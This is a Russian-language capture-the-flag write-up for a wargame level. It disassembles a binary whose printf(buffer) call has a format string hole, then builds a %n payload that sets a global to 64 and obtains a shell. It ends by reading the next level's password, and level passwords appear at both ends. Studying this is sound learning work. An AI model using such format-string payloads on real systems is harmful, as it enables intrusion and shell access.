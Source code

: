 # su level3
# pass: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

====
Уязвимость: print, (Format String Attack), %n, запись в глобальную переменную
====

# ./level3

**Поведение: ждёт ввод, возвращает эту же строку. Переполнить не получилось.**

# ltrace ./level3 
   __libc_start_main(0x804851a, 1, 0xbffff804, 0x8048530, 0x80485a0 <unfinished ...>
   fgets(12345
   "12345\n", 512, 0xb7fd1ac0)                                              = 0xbffff550
   printf("12345\n"12345
   )                                                              = 6
   +++ exited (status 0) +++

Защищенный fgets, а потом printf, выход

# disas main

Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave  
   0x08048526 <+12>:    ret    
End of assembler dump.

Вызывается v функция, на всякий случай проверяем, есть ли что то ещё:

# i func
< >
0x080484a4  v
0x0804851a  main
< >

# disas v

Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp                  536
   0x080484ad <+9>:     mov    0x8049860,%eax               stdin
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)             512
   0x080484be <+26>:    lea    -0x208(%ebp),%eax            -520
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax            -520
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax               m = 0
   0x080484df <+59>:    cmp    $0x40,%eax                   64
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax               stdout
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax              "Wait what?!\n"
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)               12
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)               12
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)               1
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)            "/bin/sh"
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave  
   0x08048519 <+117>:   ret    
End of assembler dump.

Здесь вызывается fgets с ограничением в 512, далее этот буфер читается printf, после чего происходит сравнение некоторой переменной с числом 64. Если нет - то выход, если да - вывод строки, а дальше запуск system с bin/sh.

Проверяем, что лежит в eax при сравнении

# x/a 0x804988c
0x804988c <m>:  0x0

Некая m со значением 0.

Проверим переменные

# i var
< >
0x0804988c  m

Действительно, существует глобальная переменная m = 0. **Задача - написать в глобальную переменную число 64.**
Попробуем поискать уязвимости в принтф. Первое - не проверяется то, что вводится пользователем. Нет ограничений на спецификаторы - принтф продолжит считывать инфу со стека. Мы можем вызвать любые спецификаторы, например, распечатать области памяти %p, а затем с %n записать в переменную число. 

Format String Attack

Проверяем, на какой позиции оффсет у принтф - туда положим нужную информацию и будем знать адрес, по которому обратимся в дальнейшем

# python -c 'print "AAAA" + " %p" * 6' > /tmp/l3

# cat /tmp/l3 | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025

4 позиция через $, 60 символов + 4 адрес

# python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/l3

# cat /tmp/l3 - | ./level3

# cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
